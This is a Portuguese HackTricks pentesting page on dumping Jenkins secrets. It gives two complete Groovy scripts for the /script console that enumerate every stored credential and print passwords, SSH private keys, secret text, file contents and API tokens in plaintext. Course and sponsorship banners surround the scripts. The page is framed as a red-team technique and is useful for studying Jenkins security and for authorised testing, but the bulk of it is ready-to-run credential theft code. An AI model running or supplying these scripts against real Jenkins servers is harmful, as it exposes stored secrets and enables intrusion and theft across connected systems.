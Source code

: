 # Jenkins Dumping Secrets from Groovy

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

{% hint style="warning" %}
Note que esses scripts listarão apenas os segredos dentro do arquivo `credentials.xml`, mas **arquivos de configuração de build** também podem ter **mais credenciais**.
{% endhint %}

Você pode **extrair todos os segredos do console de script Groovy** em `/script` executando este código
```java
// From https://www.dennisotugo.com/how-to-view-all-jenkins-secrets-credentials/
import jenkins.model.*
import com.cloudbees.plugins.credentials.*
import com.cloudbees.plugins.credentials.impl.*
import com.cloudbees.plugins.credentials.domains.*
import com.cloudbees.jenkins.plugins.sshcredentials.impl.BasicSSHUserPrivateKey
import org.jenkinsci.plugins.plaincredentials.StringCredentials
import org.jenkinsci.plugins.plaincredentials.impl.FileCredentialsImpl

def showRow = { credentialType, secretId, username = null, password = null, description = null ->
println("${credentialType} : ".padLeft(20) + secretId?.padRight(38)+" | " +username?.padRight(20)+" | " +password?.padRight(40) + " | " +description)
}

// set Credentials domain name (null means is it global)
domainName = null

credentialsStore = Jenkins.instance.getExtensionList('com.cloudbees.plugins.credentials.SystemCredentialsProvider')[0]?.getStore()
domain = new Domain(domainName, null, Collections.<DomainSpecification>emptyList())

credentialsStore?.getCredentials(domain).each{
if(it instanceof UsernamePasswordCredentialsImpl)
showRow("user/password", it.id, it.username, it.password?.getPlainText(), it.description)
else if(it instanceof BasicSSHUserPrivateKey)
showRow("ssh priv key", it.id, it.passphrase?.getPlainText(), it.privateKeySource?.getPrivateKey()?.getPlainText(), it.description)
else if(it instanceof StringCredentials)
showRow("secret text", it.id, it.secret?.getPlainText(), '', it.description)
else if(it instanceof FileCredentialsImpl)
showRow("secret file", it.id, it.content?.text, '', it.description)
else
showRow("something else", it.id, '', '', '')
}

return
```
#### ou este:
```java
import java.nio.charset.StandardCharsets;
def creds = com.cloudbees.plugins.credentials.CredentialsProvider.lookupCredentials(
com.cloudbees.plugins.credentials.Credentials.class
)

for (c in creds) {
println(c.id)
if (c.properties.description) {
println("   description: " + c.description)
}
if (c.properties.username) {
println("   username: " + c.username)
}
if (c.properties.password) {
println("   password: " + c.password)
}
if (c.properties.passphrase) {
println("   passphrase: " + c.passphrase)
}
if (c.properties.secret) {
println("   secret: " + c.secret)
}
if (c.properties.secretBytes) {
println("    secretBytes: ")
println("\n" + new String(c.secretBytes.getPlainData(), StandardCharsets.UTF_8))
println("")
}
if (c.properties.privateKeySource) {
println("   privateKey: " + c.getPrivateKey())
}
if (c.properties.apiToken) {
println("   apiToken: " + c.apiToken)
}
if (c.properties.token) {
println("   token: " + c.token)
}
println("")
}
```
{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

